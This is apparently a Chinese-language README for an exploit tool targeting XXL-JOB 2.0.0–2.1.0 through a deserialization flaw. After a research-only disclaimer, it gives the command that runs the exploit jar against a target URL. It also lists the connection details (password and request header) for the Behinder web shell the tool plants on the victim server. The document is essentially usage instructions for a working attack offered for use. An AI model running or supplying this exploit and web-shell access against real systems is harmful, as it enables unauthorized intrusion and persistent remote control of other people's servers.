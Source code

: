 ## XXL-JOB 2.0.0-2.1.0 反序列化利用工具

### 免责声明
该工具仅用于研究学习使用，其它环境下使用请先确保有足够的授权
由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

### 使用java8直接运行
```bash
java -jar xxl-job-api-exploit-1.0-SNAPSHOT.jar <target_url>
```

### 连接信息
```plaintext
类型：  原版冰蝎3
地址：  <target_url>
密码：  rebeyond
请求头：x-client-data: rebeyond
```
